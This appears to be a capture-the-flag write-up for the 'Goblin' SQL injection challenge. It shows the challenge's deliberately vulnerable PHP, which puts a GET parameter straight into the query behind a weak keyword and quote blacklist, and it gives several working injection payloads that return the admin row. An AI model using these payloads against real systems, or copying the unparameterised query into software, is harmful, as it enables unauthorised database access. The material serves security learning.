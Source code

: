 # **Goblin**
## 1. What will we learn from this problem?
This problem wants to make sure you can use **many SQL Functions**      

## 2. Analize codes  
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 

      $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 

      if($result['id'] == 'admin')
        solve("goblin");

      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
We can't use string like these.(scope : no)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

There is one more preg_match function.

    ' | " | ` 

If we use one of these we will see 'No Quote ~_~'

### 2. query
Query is this.

    select id from prob_goblin where id='guest' and no={$_GET[no]}

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  
    
Then how can we do that?

## 3. Solution  
In this problem, we can't use quote. But that does not matter.  
So, enough we can get the value. then how?

Those keywords are as follows.
  
### Using Keyword  

    or | substr | order by | limit | ascii | etc.....
    
    <There are too many answers to this problem.>

### These are my answers.
    
    ?no=2 or ascii(substr(id,1,1))=97
      
    ?no=2 or 1 order by id

    ?no=2 or no=2

    ?no=0 or 1 limit 1,1
  

### **ascii(char)**
This function will return the ascii value of the parameter which is char type.

### **substr(str,offset,length)**
This function will return the string from offset to length

### **order by {column} {type=asc(?)}**
If we use this function, SQL will sort data by column according to asc. If we want sort in descending order, we can use order by like this

    order by {column} desc

### **limit {offset},{amount}**
This function will cut the rows from offset-index to (offset+amount)-index.  
Start of index is 0, zero. And if we use this like "limit 1", it is same with "limit 0,1"

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**